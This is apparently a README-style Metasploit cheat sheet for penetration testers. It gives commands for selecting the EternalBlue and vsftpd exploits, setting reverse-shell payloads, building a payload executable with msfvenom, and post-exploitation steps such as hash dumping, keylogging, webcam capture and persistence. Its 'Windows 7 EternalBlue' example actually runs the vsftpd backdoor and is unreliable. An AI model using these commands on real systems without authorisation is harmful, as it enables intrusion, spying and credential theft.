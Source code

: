 # Metasploit Framework
Metasploit is a penetration testing framework that provides tools, exploits, and payloads to test vulnerabilities in systems. It's widely used by security professionals to:

- Identify weaknesses
- Exploit systems (with permission)
- Develop and test payloads
- Automate attacks using scripts (rc files)

### Key Components
| **Component**          | **Purpose**                                                        |
| ---------------------- | ------------------------------------------------------------------ |
| Exploit  | Code that attacks a known vulnerability                   |
| Payload  | Code that runs after successful exploitation (e.g., reverse shell) |
| Encoder | Scrambles payloads to bypass antivirus |
| Auxiliary  | Scanners, fuzzers, and tools that help find or poke vulnerabilities (not for exploiting)  |
| Listener (Handler) | Listens for payload connections (e.g., reverse shells)             |
| Post               | Modules to run after exploitation (dump hashes, escalate privs)    |


### Basic Workflow
1. Start Metasploit
```bash
msfconsole
```
2. Search Exploit
```bash
search name_or_service
eg.
search ms17_010 (a famous Windows vulnerability)
```
3. Select Module
```bash
use exploit/path/to/module
eg. use exploit/windows/smb/ms17_010_eternalblue
```
4. Set Payload
```bash
set payload windows/meterpreter/reverse_tcp
```
5. Configure Options
```bash
set RHOSTS <target_ip>
set LHOST <your_ip>
```
6. Exploit the Target
```bash
exploit
```

### Common Module Paths
| Module Type       | Path                                       |
| ----------------- | ------------------------------------------ |
| Exploits          | `exploit/windows/smb/ms17_010_eternalblue` |
| Payloads          | `payload/windows/meterpreter/reverse_tcp`  |
| Auxiliaries       | `auxiliary/scanner/portscan/tcp`           |
| Post-Exploitation | `post/windows/gather/hashdump`             |

### Common Payloads
| Payload                             | Use                            |
| ----------------------------------- | ------------------------------ |
| `windows/meterpreter/reverse_tcp`   | Reverse shell with Meterpreter |
| `windows/shell/reverse_tcp`         | Simple reverse shell           |
| `linux/x86/meterpreter/reverse_tcp` | Linux Meterpreter shell        |
| `android/meterpreter/reverse_tcp`   | Android payload                |
| `cmd/unix/reverse`                  | Simple UNIX reverse shell      |

## Commands:

| **Command**    | **Description**          | **Example**                     |
| ---------------- | ----------------------- | ------------------------------ |
| `msfconsole`   | Launch Metasploit Framework  | `msfconsole`   |
| `search [term]`   | Search for exploit/module/payload    | `search vsftpd`  |
| `use [module_path]`  | Use specific exploit or module  | `use exploit/windows/smb/ms17_010_eternalblue`  |
| `info`  | Show details of current module    | `info` |
| `show options`  | Show required settings for current module   | `show options`  |
| `set [OPTION] [value]`  | Set option value  | `set RHOSTS 192.168.1.10`   |
| `setg [OPTION] [value]` | Set global option (works for all modules)  | `setg LHOST 192.168.1.5`   |
| `show payloads`  | Show compatible payloads  | `show payloads`      |
| `set payload [name]`  | Set a specific payload  | `set payload linux/x86/meterpreter/reverse_tcp` |
| `show targets`   | Show target platforms/versions  | `show targets`   |
| `exploit` or `run`      | Launch the exploit     | `exploit`  |
| `back` | Return to previous module    | `back`  |
| `jobs`  | Show background tasks   | `jobs`                                          |
| `kill [job_id]`    | Stop background task  | `kill 1` |
| `sessions`   | View active sessions   | `sessions`    |
| `sessions -i [id]`   | Interact with a session   | `sessions -i 1`  |
| `background`   | Background the current session  | `background` |
| `load [module]`  | Load extra functionality (e.g., `auto_add_route`) | `load mimikatz`  |
| `exit`  | Exit Metasploit  | `exit`  |


### Post-Exploitation (Meterpreter)
| Command           | Use                                |
| ----------------- | ---------------------------------- |
| `sysinfo`         | Show system info                   |
| `getuid`          | Show current user                  |
| `hashdump`        | Dump password hashes               |
| `screenshot`      | Take screenshot of victim's screen |
| `record_mic`      | Record audio from victim mic       |
| `webcam_snap`     | Take picture via webcam            |
| `keyscan_start`   | Start keylogger                    |
| `keyscan_dump`    | Dump keystrokes                    |
| `shell`           | Drop into system shell             |
| `upload/download` | Transfer files                     |
| `persistence`     | Create backdoor to re-enter later  |

### Creating Malicious Files with msfvenom
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=4444 -f exe > payload.exe
```
| Flag            | Description                                      |
| --------------- | ------------------------------------------------ |
| `-p`            | Payload type                                     |
| `LHOST`/`LPORT` | Your attacker machine details                    |
| `-f`            | Output format (`exe`, `apk`, `elf`, `raw`, etc.) |
| `-o`            | Output to file (optional)                        |

#### Practical Exploitation Example (Windows 7 EternalBlue)
```bash
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.4
exploit
```
